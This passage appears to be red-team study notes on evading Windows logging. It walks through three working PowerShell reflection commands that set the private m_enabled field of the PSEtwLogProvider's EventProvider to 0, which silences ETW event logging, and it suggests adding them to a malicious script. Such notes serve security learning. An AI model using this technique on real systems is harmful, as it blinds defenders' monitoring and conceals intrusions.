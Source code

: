 Overview of the three components working together:

![Evading Logging and Monitoring-3.png|500](/img/user/cards/red-team/images/Evading%20Logging%20and%20Monitoring-3.png)

Now the goal is to limit insights for ETW, we can do this by targeting components while mainitaining most of the data flow.

## Reflection for Fun and Silence
---
[[cards/red-team/Runtime Detection Evasion#PowerShell Reflection\|Read about what .NET assembly and reflection here]].

Within PowerShell, ETW providers are loaded into the session from a **.NET assembly**: `PSEtwLogProvider`, In a PowerShell session, most .NET assemblies are loaded in the same security context as the user at startup, knowing this we can modify the assembly fields and values through PowerShell Reflection.

The `PSEtwLogProvider` has a `m_enabled` field that determines whether logging is active, if we set it to `0` (false), PowerShell will stop sending events to ETW.

**Step 1 – Get the type for PSEtwLogProvider**

```powershell
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
```

**Step 2 – Get the ETW provider object**

```PowerShell
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
```

- You are pulling out the private, static field called `etwProvider` from `PSEtwLogProvider`.

- This `etwProvider` is an **instance of EventProvider** — the object that controls whether events are sent.

**Step 3 – Disable logging by setting m_enabled to 0**

```PowerShell
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```

- Here, we take the **EventProvider** type (the one that `$etwProvider` belongs to).
    
- We access its private `m_enabled` field, which is normally **1** when logging is on.

Now we can add this to a malicious script and see below for demonstration:

There are currently 386 events:

![Evading Logging and Monitoring-4.png](/img/user/cards/red-team/images/Evading%20Logging%20and%20Monitoring-4.png)

Executing `whoami` then running the same command:

![Evading Logging and Monitoring-5.png](/img/user/cards/red-team/images/Evading%20Logging%20and%20Monitoring-5.png)

Now executing the reflection.ps1 script (Untitled1.ps1) then checking the number of events, executing `whoami`, then finally check the current number of events:
